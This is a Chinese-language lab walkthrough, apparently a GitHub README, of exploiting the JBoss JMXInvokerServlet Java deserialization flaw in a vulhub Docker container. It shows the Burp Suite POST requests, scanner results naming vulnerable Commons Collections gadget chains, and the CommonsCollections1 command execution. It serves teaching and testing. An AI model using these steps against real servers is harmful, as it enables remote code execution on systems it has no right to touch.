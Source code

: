 # Jboss_JMXInvokerServlet_Deserialization_RCE

## 使用Burp Suite利用Java反序列化漏洞



### 0x01 搭建Jboss JMXInvokerServlet 反序列化漏洞

#### 测试环境： JBoss JMXInvokerServlet 反序列化漏洞
#### 漏洞原理：JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker-compose up -d
jmxinvokerservlet-deserialization_jboss_1 is up-to-date

root@kali:~# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                      
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                4 hours ago         Up 4 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->999
```

## 0x02 访问/invoker/JMXInvokerServlet, 将post数据包发送到Deserialization Scanner -Manual testing

BurpSuite 历史记录，如果/invoker/JMXInvokerServlet路径存在，页面返回200状态码
```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

aaaa
```
response返回 Java serialization data, version 5
文件头以aced0005737200246f72672e6a626f73开头

将/invoker/JMXInvokerServlet ,POST流量发送到DS插件里面
右击,点击 Send request to DS-Manual testing

### 设置序列化点
选择存在序列化的位置，由于JBoss在/invoker/JMXInvokerServlet请求中读取了用户传入的序列化对象.
设置aaaa为序列化点，全选aaaa
然后点击 Set Insertion Point
此时POST数据变成了 $aaaa$

```
POST /invoker/JMXInvokerServlet HTTP/1.1
Host: 10.10.20.166:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Cookie: JSESSIONID=8B6B65418F89E8857F4302AB85085A36
X-Forwarded-For: 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

§aaaa§
```

### 扫描$aaaa$是否存在序列化漏洞
点击 Attack

提示
```
SCANNING IN PROGRESS  //正在进行扫描
Scanning can go on approximately from 1 second up to 3 minutes, based on the number of vulnerable libraries founded
//根据创建的易受攻击的库的数量，扫描可以持续大约1秒到3分钟
```

稍等

```
Results:

Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!
Spring Alternate Payload (Sleep): NOT vulnerable.
Apache Commons Collections 4 (Sleep): NOT vulnerable.
JSON (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 2 (Sleep): NOT vulnerable.
ROME (Sleep): NOT vulnerable.
Apache Commons Collections 4 Alternate payload (Sleep): NOT vulnerable.
Java 8 (up to Jdk8u20) (Sleep): NOT vulnerable.
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!!
Hibernate 5 (Sleep): NOT vulnerable.
Commons BeanUtils (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!!
Spring (Sleep): NOT vulnerable.
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!
END

IMPORTANT NOTE: High delayed networks may produce false positives!
```
可能存在危害的利用方法
```
Apache Commons Collections 3 (Sleep): Potentially VULNERABLE!!!   //可能有害！
Java 6 and Java 7 (up to Jdk7u21) (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload 3 (Sleep): Potentially VULNERABLE!!! //可能有害！
Apache Commons Collections 3 Alternate payload (Sleep): Potentially VULNERABLE!!!  //可能有害！
```

右击发送到 Send to Exploitation tab


默认
`CommonsCollections1 COMMAND`
改为
`CommonsCollections1 "touch /tmp/jas502n"`

点击 Attack

进入docker服务器，查看/tmp/jas502n文件是否创建成功

```
root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker ps -a
CONTAINER ID        IMAGE                      COMMAND                  CREATED             STATUS              PORTS                                            NAMES
65b3707b9419        vulhub/jboss:as-6.1.0      "/run.sh"                5 hours ago         Up 5 hours          0.0.0.0:8080->8080/tcp, 0.0.0.0:9990->9990/tcp   jmxinvokerservlet-deserialization_jboss_1

root@kali:~/vulhub/jboss/JMXInvokerServlet-deserialization# docker exec -it 65b3707b9419 /bin/bash
[root@65b3707b9419 /]# cd /tmp
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# rm jas502n 
rm: remove regular empty file 'jas502n'? y
[root@65b3707b9419 tmp]# 
[root@65b3707b9419 tmp]# ls
hsperfdata_root
[root@65b3707b9419 tmp]# ls
hsperfdata_root  jas502n
[root@65b3707b9419 tmp]# 
```

## 参考链接：
https://github.com/vulhub/vulhub/blob/master/jboss/JMXInvokerServlet-deserialization/README.md

https://youtu.be/F3bPD_uGXKc
